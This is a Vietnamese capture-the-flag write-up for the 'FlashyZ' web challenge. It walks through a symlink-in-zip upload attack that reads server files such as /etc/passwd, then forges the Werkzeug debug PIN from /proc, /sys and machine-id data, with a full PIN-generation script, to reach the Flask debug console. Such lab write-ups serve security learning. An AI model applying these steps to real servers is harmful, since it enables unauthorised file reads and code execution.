

# Symlink Attack + Werkzeug / Flask Debug

**Tên challenge:**  FlashyZ

**Link challenge:** `Flashy.zip`

**Tác giả challenge:** Dat2Phit

**Mục tiêu challenge:**
Read `/flag.txt`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta sẽ thấy trang Web có chức năng Upload ảnh như sau:


Chức năng Upload này chỉ được phép Up file `.zip` và khi đọc qua Source Code của Challenge thì ta chẳng có cách nào khác để Bypass Upload 1 file có đuôi khác `.zip` hay là đổi tên file để khai thác `Path Traversal` vì đoạn code sau đây sẽ đổi tên file thành ngẫu nhiên khi trước đưa vào thực thi command `unzip ...`.

```
@app.route("/upload", methods=["POST"])
def upload():
    if "file" not in request.files:
        flash("No file uploaded", "danger")
        return render_template("index.html")

    file = request.files["file"]
    if file.filename.split(".")[-1].lower() != "zip":
        flash("Invalid extension", "danger")
        return render_template("index.html")

    the_zip_file = zipfile.ZipFile(file)
    if the_zip_file.testzip() is not None:
        flash("Invalid file", "danger")
        return render_template("index.html")
    
    file.stream.seek(0)
    upload_uuid = str(uuid.uuid4())
    filename = f"{UPLOAD_DIR}/zips/{upload_uuid}.zip"
    file.save(filename)
    subprocess.call(["unzip", filename, "-d", f"{UPLOAD_DIR}/out/{upload_uuid}"])
    flash(
        f'Your file is at <a href="/list/{upload_uuid}">{upload_uuid}</a>!', "success"
    )
    return redirect("/")
```

Và cho dù ta Upload 1 file shell python thì ta cũng không thể thực thi nó vì đoạn code sau chỉ đọc nội dung của file chứ không thực thi nó:
```
@app.route("/view/<string:path>/<string:filename>")
def view(path, filename):
    try:
        file_path = os.path.join(f"{UPLOAD_DIR}/out", os.path.basename(path))
        content = open(f"{file_path}/{os.path.basename(filename)}").read()
        return content
    except:
        abort(404)
```
=> Các cách khai thác phổ thông đều đã bị chặn đứng.

Nhưng có 1 file đặc biệt khi kết hợp với file `.zip` sẽ có thể tạo ra 1 lỗ hổng để ta khai thác và đó chính là `symlink`.

<u>**Thông tin thêm:**</u> Bạn có thể tìm hiểu thêm `symlink` trên mạng.

**B2:** Ta bắt đầu tạo 1 file `symlink` trỏ tới file `/etc/passwd` và sau đó nén thành file `.zip` rồi Upload lên Server để xem liệu file `symlink` này có đọc được file `/etc/passwd` của Website không.

Đầu tiên, ta sẽ tạo file `symlink` trỏ tới file `/etc/passwd` qua lệnh:
```
$> ln -s /etc/passwd test_symlink

$> ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov 18 11:14 .
drwxr-xr-x 9 root root 4096 Nov 18 08:02 ..
lrwxrwxrwx 1 root root   11 Nov 18 11:14 test_symlink -> /etc/passwd

```
Như vậy là ta đã thành công tạo 1 file `symlink` trỏ tới `/etc/passwd`, tiếp đến ta sẽ nén file `test_symlink` này thành file `.zip`:
```
$> zip -y test.zip test_symlink
  adding: test_symlink (stored 0%)

$> ls -la
total 14
drwxr-xr-x 2 root root 4096 Nov 18 11:15 .
drwxr-xr-x 9 root root 4096 Nov 18 08:02 ..
lrwxrwxrwx 1 root root   11 Nov 18 11:14 test_symlink -> /etc/passwd
-rw-r--r-- 1 root root  185 Nov 18 11:15 test.zip
```

Cuối cùng, ta sẽ Upload file `.zip` này lên Website.

Ta mở file vừa được Server giải nén ra và kết quả:



=> Ta đã thành công khai thác `Symlink Attack`

**B3:** Ta tạo 1 file `symlink` khác trỏ tới `/flag.txt` và làm tương tự cách trên để xem có đọc được `Flag` không.

=> Kết quả là, ta không thể đọc được `Flag`

Nguyên nhân vì sao thì tí nữa bạn sẽ biết.

Vậy giờ, chúng ta phải làm gì tiếp theo ?
* **Trả lời:** Khi ta đọc lại Source Code thì ta sẽ phát hiện tính năng `Debug Flask` của Website đang được bật
```
if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=5000)
```
Cụ thể thì tính năng này sẽ giúp Developer có thể thực thi code trên trang Web thông qua endpoint `/console` trong quá trình phát triển sản phẩm. Ngoài thực tế thì tính năng `Debug` này sẽ không được bật vì tính rủi ro, nhưng nhiều lúc các `Developer` sẽ bất cẩn và bật tính năng này để thao tác với trang Web nhưng lại quên tắt.

**B4:** Ta thử truy cập endpoint `/console` để xem có thể thực thi code trên Web không.

Ta nhận được 1 thông báo yêu cầu nhập mà `PIN DEBUG`:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

Đây là 1 cơ chế bảo vệ nhằm phòng tránh các trường hợp các anh `Developer` bất cẩn quên tắt tính năng `Debug` thì cũng sẽ không bị kẻ xấu truy cập được.

Tuy nhiên, có 1 điểm thú vị về mã `PIN` này là ta có thể tìm ra được nó.

Bạn có thể xem qua file tạo ra mã PIN thông qua đọc file `__init__.py` nằm trong gói thư viện `werkzeug` của `Python`. Trong file `__init__.py` này sẽ trình bày rõ cơ chế tạo khoá `PIN DEBUG`. Hoặc bạn cũng có thể xem file `__init__.py` ở trên `github`: https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/_\_init__.py.

Tuy nhiên, bạn vẫn nên xem file `__init__.py` ở trên Server vì có thể Developer sẽ dùng thuật toán khác,...

Thông thường thì file `__init__.py` nằm ở đường dẫn sau đây:
```
/usr/local/lib/python3.5/dist-packages/werkzeug/__init__.py
```
Nhưng đây là bản `python3.5`, còn Server đang chạy ở bản `python3.10` ( Đọc Source Code là biết ) cho nên đường dẫn sẽ khác 1 chút:
```
/usr/local/lib/python3.10/dist-packages/werkzeug/__init__.py

Hoặc

/usr/local/lib/python3.10/site-packages/werkzeug/__init__.py
```

Từ đây, ta sẽ tạo 2 file `symlink` trỏ tới 2 đường dẫn trên và nén cả 2 thành 1 file `.zip` sau đó đẩy lên Server và ta sẽ mở cả 2 file và 1 trong 2 đường dẫn sẽ trả về kết quả file `__init__.py`

**B4:** Ta cần đọc nội dung sau đây trong file `__init__.py`
```
def get_pin_and_cookie_name(app):
    pin = os.environ.get('WERKZEUG_DEBUG_PIN')
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == 'off':
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace('-', '').isdigit():
        # If there are separators in the pin, return it directly
        if '-' in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, '__module__',
                      getattr(app.__class__, '__module__'))

    try:
        # `getpass.getuser()` imports the `pwd` module,
        # which does not exist in the Google App Engine sandbox.
        username = getpass.getuser()
    except ImportError:
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, '__name__', getattr(app.__class__, '__name__')),
        getattr(mod, '__file__', None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    return rv, cookie_name
```
Đoạn code trên là đoạn code tạo ra mã `PIN DEBUG`, và để khai thác được mã `PIN` thì ta cần phải chú ý những biến sau đây:
```
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```
Đừng hoảng sợ, tôi sẽ giải thích ý nghĩa và cách lấy giá trị từng biến:

**1. Giải thích:**
* `username` là người đã khởi chạy Flask.

* `modname` mặc định là `flask.app`

* `getattr(app, '__name__', getattr (app .__ class__, '__name__'))` mặc định là `Flask`

* `getattr(mod, '__file__', None)` là đường dẫn tuyệt đối đến file `app.py` trong thư mục `flask` của Python

* `uuid.getnode()` là địa chỉ MAC của Server hiện tại và `str (uuid.getnode ())` là địa chỉ MAC của Server hiện tại nhưng đã được chuyển đổi thành dạng thập phân

* `get_machine_id()`: ID của máy.

**2. Cách lấy:**
* `username`:
    * Đầu tiên bạn sẽ đọc nội dung của file `/proc/self/status`, sau đó bạn tìm dòng `UID` ( **VD:** `Uid:    1000    1000    1000    1000` )
    * Sau đó, bạn đọc tiếp nội dung file `/etc/passwd` rồi tìm `UID` tương ứng sẽ ra username đó ( **VD:** `user:x:1000:1000::/home/user:/bin/sh` => `username` là `user`)

* `modname` mặc định là `flask.app`

* `getattr(app, '__name__', getattr (app .__ class__, '__name__'))` mặc định là `Flask`

* `getattr(mod, '__file__', None)`: là đường dẫn tuyệt đối của file `app.py` trong `Flask` của Python ( **VD:** `/usr/local/lib/python3.10/site-packages/flask/app.py` )

* `uuid.getnode()`:
    * Đầu tiên, bạn phải đọc file `/proc/net/arp` để lấy `DEVICE ID`
    
    * **VD:**
```
IP address       HW type     Flags       HW address            Mask     Device
172.22.0.3       0x1         0x2         02:42:ac:16:00:03     *        eth0
```

* => `DEVICE ID` của Website là `eth0`

    * Tiếp theo, bạn sẽ lấy địa chỉ MAC thông qua đọc file sau đây: `/sys/class/net/<device id>/address` thay `<device id>` thành `eth0`
    * Sau khi lấy được mã MAC thì bạn phải chuyển nó sang nhị phân bằng cách sau:
```
# Example MAC address: 02:42:ac:16:00:02
$> python

Python 3.10.15 (main, Nov 12 2024, 02:24:06) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.

>>> print(0x0242ac160002)
2485378220034
```
=> `uuid.getnode()` = `2485378220034`

* `get_machine_id()`:
    * Bạn sẽ đọc nội dung của hai file sau: `/proc/sys/kernel/random/boot_id` và `/etc/machine-id`, chỉ có 1 file sẽ trả về kết quả vì tuỳ máy mà Machine ID sẽ nằm ở 1 trong 2 file trên.
    * Sau khi có được kết quả rồi, bạn hãy tạm lưu nó ra nháp, kế đến bạn sẽ đọc tiếp file `/proc/self/cgroup` nhưng chỉ đọc dòng đầu tiên của file và lấy giá trị sau dấu `/` cuối cùng.

VD:
```
$ cat /proc/self/cgroup
29:name=systemd:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
28:misc:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
27:rdma:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
26:pids:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
25:hugetlb:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
24:net_prio:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
23:perf_event:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
22:net_cls:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
21:freezer:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
20:devices:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
19:memory:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
18:blkio:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
17:cpuacct:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
16:cpu:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
15:cpuset:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
0::/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
```
Bạn chỉ copy dòng đầu tiên ra là `29:name=systemd:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d`, sau đó lấy giá trị ở sau dấu `/` cuối cùng tức là `e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d`.

Cuối cùng, bạn lấy chuỗi vừa lấy được đem đi thêm vào đằng sau của chuỗi `Machine ID` mà tôi bảo bạn lưu vào nháp ở trên và bạn sẽ được chuỗi có dạng như sau:
```
579cb1c1-d66e-4bff-8f9d-630242ce704de58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
```

Thế là ta đã xong phần lấy giá trị của các biến rồi, bây giờ ta sẽ dùng code python sau và thay từng giá trị vào và ta sẽ được code tạo ra mã `PIN DEBUG` của Server:
```python
import hashlib
from itertools import chain
probably_public_bits = [
        'user',# username
        'flask.app',# modname
        "Flask",# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
        '2485378220034',# str(uuid.getnode()),  /sys/class/net/ens33/address
        '579cb1c1-d66e-4bff-8f9d-630242ce704de58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1() # sometimes will be h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num
print(rv)
```
Bạn chỉ cần thay những giá trị bạn vừa tìm được vào code trên thôi.

<u>**Lưu ý:**</u> Đôi lúc dòng `h = hashlib.sha1()` có thể là `h = hashlib.md5()`, đó là lý do tôi bảo bạn nên đọc file `__init__.py` của Server để dựa trên đó mà chỉnh code cho đúng, nếu không sẽ không ra đúng mã `PIN DEBUG` của Server.

Sau khi chỉnh xong, thì ta sẽ chạy file và có được mã `PIN`.

**B5:** Ta nhập mã `PIN` vào `/console` và ta đã thành công vào được `Interactive Console`


Tiếp theo, ta sẽ thực thi Command bằng cách bước sau:


=> Đây chính là nguyên nhân ta không đọc được `Flag` vì chỉ có `root` mới đọc được file `flag.txt` thôi mà ta đang ở quyền `user` cho nên ta không thể đọc được `flag` và bây giờ thì vẫn ở quyền `user` nên không thể đọc được.

Nhưng khi để ý đến file `readflag` thì ta thấy ta có quyền thực thi nó, cho nên ta sẽ thử thực thi nó bằng lệnh sau:


=> Ta đã thành công đọc được `Flag` thông qua file `readflag`.

<u>**Đọc thêm:**</u> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#code-for-get_machine_id